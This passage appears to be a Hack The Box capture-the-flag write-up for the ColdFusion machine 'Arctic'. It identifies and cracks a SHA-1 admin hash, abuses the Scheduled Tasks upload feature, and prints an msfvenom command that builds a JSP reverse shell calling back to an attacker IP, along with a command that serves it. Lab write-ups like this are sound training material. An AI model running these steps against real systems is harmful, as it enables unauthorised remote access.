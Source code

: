 Using hash-identifier we see the hash is most likely SHA-1.

```
root@kali:~/htb/arctic# hash-identifier
   #########################################################################
   #	 __  __ 		    __		 ______    _____	   #
   #	/\ \/\ \		   /\ \ 	/\__  _\  /\  _ `\	   #
   #	\ \ \_\ \     __      ____ \ \ \___	\/_/\ \/  \ \ \/\ \	   #
   #	 \ \  _  \  /'__`\   / ,__\ \ \  _ `\	   \ \ \   \ \ \ \ \	   #
   #	  \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \	    \_\ \__ \ \ \_\ \	   #
   #	   \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/	   #
   #	    \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.1 #
   #								 By Zion3R #
   #							www.Blackploit.com #
   #						       Root@Blackploit.com #
   #########################################################################

   -------------------------------------------------------------------------
 HASH: 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03

Possible Hashs:
[+]  SHA-1
```

A quick Google search online yields the cracked password - `happyday`. Usually easiest to start here before firing up hashcat. 

Inside of the login page there is an area that allows us to upload files via Scheduled Tasks under the Debugging & Logging Category.  

![ADMIN](/img/arctic-admin.png)

The scheduled task setup gives you the ability to download a file from a webserver and save the output locally. Under Mappings, we can verify the CFIDE path, so we know where we can save a shell.

![MAPPINGS](/img/arctic-mappings.png)

At this point we need to generate a shell. We could upload a cfexec.cfm shell (located in /usr/share/webshells/cfm on Kali) to get command execution or we can get a full shell by uploading a JSP shell since ColdFusion will serve and run JSP files.

To generate a JSP shell, we use msfvenom and set our parameters accordingly.

```
root@kali:~/htb/arctic# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f raw > shell.jsp
Payload size: 1496 byte
```

Now that we have our shell created let's serve up the file from Kali using a python SimpleHTTPServer

```
root@kali:~/htb/arctic# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```
